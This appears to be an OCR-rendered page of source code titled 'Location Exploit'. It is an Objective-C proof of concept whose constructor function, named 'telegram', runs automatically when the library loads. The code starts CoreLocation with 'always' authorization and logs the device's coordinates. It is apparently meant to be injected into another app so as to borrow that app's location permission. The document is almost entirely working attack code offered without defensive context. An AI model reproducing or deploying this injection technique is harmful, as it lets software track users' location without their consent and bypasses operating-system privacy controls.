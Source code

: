 ## **Location Exploit**

```
#import <Foundation/Foundation.h>
#import <CoreLocation/CoreLocation.h>

@interface LocationFetcher : NSObject <CLLocationManagerDelegate>

@property (strong, nonatomic) CLLocationManager *locationManager;

- (void)startFetchingLocation;
- (void)stopFetchingLocation;

@end

@implementation LocationFetcher

- (instancetype)init {
    self = [super init];
    if (self) {
        _locationManager = [[CLLocationManager alloc] init];
        _locationManager.delegate = self;
        [_locationManager requestAlwaysAuthorization];
    }
    return self;
}

- (void)startFetchingLocation {
    [self.locationManager startUpdatingLocation];
    NSLog(@"Location fetching started");
}

- (void)stopFetchingLocation {
    [self.locationManager stopUpdatingLocation];
    NSLog(@"Location fetching stopped");
}

#pragma mark - CLLocationManagerDelegate

- (void)locationManager:(CLLocationManager *)manager
     didUpdateLocations:(NSArray<CLLocation *> *)locations {
    CLLocation *latestLocation = [locations lastObject];
    NSLog(@"Received Location: Latitude: %f, Longitude: %f", latestLocation.coordinate.latitude, latestLocation.coordinate.longitude);
}

- (void)locationManager:(CLLocationManager *)manager
       didFailWithError:(NSError *)error {
    NSLog(@"Location fetching failed: %@", [error localizedDescription]);
}

@end

__attribute__((constructor))
static void telegram(int argc, const char **argv) {
    LocationFetcher *locationFetcher = [[LocationFetcher alloc] init];

    [locationFetcher startFetchingLocation];
    [NSThread sleepForTimeInterval:5.0];
    [locationFetcher stopFetchingLocation];

    [[NSRunLoop currentRunLoop] runUntilDate:[NSDate dateWithTimeIntervalSinceNow:1.0]];
}
```